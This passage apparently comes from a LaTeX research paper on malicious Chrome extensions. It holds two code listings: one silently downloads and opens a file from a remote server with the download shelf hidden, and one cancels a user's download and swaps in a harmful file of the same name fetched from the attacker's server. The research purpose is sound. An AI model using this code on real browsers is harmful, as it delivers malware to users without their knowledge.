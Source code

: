 	\begin{code}
		\begin{lstlisting}
var storedDownloadId = null;
chrome.downloads.setShelfEnabled(false);
chrome.downloads.download({	url: REMOTE_SERVER_URL,	method: 'GET' }, function(downloadId) {
	waitUntilDownloadHasFinished(function() {
		storedDownloadId = downloadId;
	});
});		
chrome.runtime.onMessage.addListener(function() {
	if(storedDownloadId != null) {
		chrome.downloads.open(downloadItem.id);
		chrome.downloads.erase({id: downloadItem.id});
		chrome.downloads.setShelfEnabled(true);
	}
});
\end{lstlisting}
		\caption{Extension code to download and open a file without the user noticing.}
		\label{code:downloadAndOpenFile}
	\end{code}
	
	We implemented another approach that cancels a download which the user has initiated and then initiates a download itself of a harmful file with the same name and mime-type as the original one. If the user does not recognize the exchange of the file, he will execute the file and therefore the implemented attack for us.
	
	Our implementation is shown in \autoref{code:exchangeDownloadFile}. First, we create an event listener that is triggered if the user initiates a new download (line 1). We only target files with a particular mime type and therefore check if the downloading file's mime type matches (line 2). If this is true, we cancel the user's download (line 3), remove the entry from the browser's downloads list and the download status bar (line 4), and initiate the download of a file from our remote server (line 5). We send the name and the mime type of the file that the user wants to download along the request (line 6). This allows us to set the mime type and the filename correctly at our remote server.
	
	\begin{code}
		\begin{lstlisting}
chrome.downloads.onCreated.addListener(function (downloadItem) {
	if(downloadItem.mime === TARGETED_MIME_TYPE) {
		chrome.downloads.cancel(downloadItem.id);
		chrome.downloads.erase({ id: downloadItem.id });
		chrome.downloads.download({
			url: REMOTE_SERVER_URL + '?filename=' downloadItem.filename + '&mime_type=' + downloadItem.mime,
			method: 'GET',
		});
	}
});
\end{lstlisting}	
		\caption{Extension code to silently exchange a file that the user currently downloads.}	
		\label{code:exchangeDownloadFile}
	\end{code}
	
